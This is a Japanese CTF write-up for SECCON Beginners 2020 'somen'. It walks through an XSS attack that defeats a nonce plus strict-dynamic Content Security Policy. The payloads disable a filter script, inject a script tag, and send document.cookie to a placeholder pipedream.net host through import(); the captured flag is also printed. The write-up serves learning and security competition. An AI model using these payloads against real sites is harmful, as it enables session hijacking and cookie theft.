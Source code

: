 # SECCON Beginners CTF 2020 "somen" writeup

## 問題

```
Somen is tasty.

https://somen.quals.beginners.seccon.jp
```

## 解法

CSP nocnce + strict-dynamic の XSS 問題

### 問題の設定

- http header にて CSP が設定されている

```
Content-Security-Policy: default-src 'none'; script-src 'nonce-eiiCiTQ9UAZxTQqdJ7s/9dc/BGA=' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='
```

- title タグにエスケープ無しで任意コードの挿入が可能

```php
<title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>
```

- html にて id="message" に任意コードの挿入が可能なインラインスクリプト

```html
<script nonce="eiiCiTQ9UAZxTQqdJ7s/9dc/BGA=">
    const choice = l => l[Math.floor(Math.random() * l.length)];

    window.onload = () => {
        const username = new URL(location).searchParams.get("username");
        const adjective = choice(["Nagashi", "Hiyashi"]);
        if (username !== null)
            document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
    }
</script>
```

- security.js

username パラメータをアルファベットと数字のみに制限

```javascript
console.log('!! security.js !!');
const username = new URL(location).searchParams.get("username");
if (username !== null && ! /^[a-zA-Z0-9]*$/.test(username)) {
    document.location = "/error.php";
}
```

### Step 1. security.js の無効化

[Content Security Policy Level 3 における XSS 対策 - pixiv inside](https://inside.pixiv.blog/kobo/5137) に記載の Content exfiltration / Scriptless attack を使います

```
/?username=</title>aaa<img src="https://xxx.x.pipedream.net/?x=
```

とすることで img タグの終了部分が security.js の`</script>`までとなり security.js を無効化することができます

### Step 2. `<script id="message">` による CSP バイパス

CSP の設定により、

- nonce が付与されている

- ハッシュ値が`sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A=`である

Javascript しか実行できないようになっていますが、`strict-dynamic`が設定されていることにより「すでに信頼されている Javascript が生成した Javascript コード」は実行されます

よって CSP nonce によって実行が許可されている

```javascript
document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
```

このインラインスクリプトによって生成される Javascript は実行されます

このコードは id="message"となっているタグの中身を書き換えるものであるので`<script id="message">`を事前に挿入しておき、innerHTML によって`<script id="message">`内で Javascript を展開して実行することができます

また`<script id="message">`内で Javascript が展開された時に邪魔になるコードをコメントアウトすると

```
/?username=alert(1)//</title><script id="message"></script><img src="https://xxx.x.pipedream.net/?x=
```

これで`alert(1)`が実行されることになります

### Step 3. cookie の窃取

先程できたコードに document.cookie を窃取するコードを追加すると

```
/?username=import(`//xxx.x.pipedream.net/?${document.cookie}`)//</title><script id="message"></script><img src="https://xxx.x.pipedream.net/?x=
```

これをクローラーに提出すると

```
https://xxx.x.pipedream.net/?flag=ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```

フラグを含んだリクエストが飛んできます

```
ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```
